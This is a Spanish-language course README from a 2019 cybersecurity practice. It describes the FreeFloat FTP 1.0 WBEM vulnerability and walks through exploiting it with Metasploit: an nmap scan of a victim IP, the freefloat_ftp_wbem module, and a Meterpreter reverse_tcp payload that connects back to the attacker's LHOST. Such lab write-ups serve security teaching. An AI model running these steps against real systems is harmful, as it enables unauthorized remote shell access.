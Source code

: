 # CiberPractica
Practica Ciberseguridad 2019

---------------------------------------------------------
# Información del exploit FreeFloat FTP Wbem Freefloat v1.0

este exploit lo ha subido sinn3r y juan vazquez (ambos de @metasploit):

esta vulnerabilidad fue encontrada en el servicio de freefloat 1.0, la cual permite a un usuario malicioso
ingresar al sistema que esté corriendo este servicio.
la forma en que el exploit se ejecuta es la siguiento:

  1. No se necesita credencial para iniciar sesión
  2. la ruta predeterminada del usuario está en C: \, y esto no se puede cambiar.
  3. el usuario puede escribir en cualquier parte del sistema de archivos del servidor. Como resultado de estas implementaciones deficientes,     un usuario malintencionado puede simplemente iniciar sesión y luego cargar archivos, y dejar que WMI ejecute la carga útil cargada

El exploit está cargado en la base de datos de metasploit framework, puede ser usado desde allí.
Finalmente, el exploit fue divulgado el 07/12/2012

# Instrucciones

1.Escanear el equipo victima para determinar en que puerto y que servicio está corriendo.<br>
  nmap -sC -sV -V 123.34.54.2 (ejemplo)<br>
2.Despues de identificar el puerto y servicio abrir metasploit (msfdb run ó msfconsole)<br>
3.Buscar el exploit:
  msf5 > search freefloat (ejemplo)<br>
4.Seleccionar el exploit:
  use exploit/windows/ftp/freefloat_ftp_wbem<br>
5.Ver la configuración del exploit, para ello usamos show options, show info y de ser necesario cambiar algun parametro
avanzado puede revisar la configuración avanzada con show advanced.
6.Cambiar los valores de RHOSTS y RPORT por el de la maquina victima y el puerto en donde corre el servicio, en este caso el 21
por defecto, los servicios de ftp usan este puerto, ademas para asegurarnos nos dimos cuenta que con nmap vimos que ese puerto corria
el servicio de ftp con freefloat 1.0v:
  set RHOST 123.34.54.2<br>
  set RPORT 21<br>
7.Seleccionamos el payload, en este caso se trata de un OS windows:
  set payload windows/meterpreter/reverse_tcp<br>
8.Cambiamos las opciones del payload, el LHOST y el LPORT, LHOST es nuestra maquina, a la cual se conectará la maquina victima,y LPORT es el puerto al que se conectará en nuestra maquina:
  set LPORT 4444<br>
  set LHOST 123.45.67.8<br>
9.AHORA SI, CORREMOS EL EXPLOIT :D   :
  msf5> run ó msf5> exploit (el clasico)<br>
 
 # FELIZ HACKING B)
 ![UPS NO CARGÓ LA IMAGEN :v ](https://opinionstage-res.cloudinary.com/image/upload/c_lfill,dpr_1.0,f_auto,fl_lossy,q_auto:good,w_700/v1/polls/sxso0xaofrrfzgaq3kqb)
 
WebGrafía:

  https://www.rapid7.com/db/modules/exploit/windows/ftp/freefloatftp_wbem
  
Herramientas usadas para la demo:

  nmap y NSE: https://nmap.org/<br>
  metasploitframework: https://www.metasploit.com/

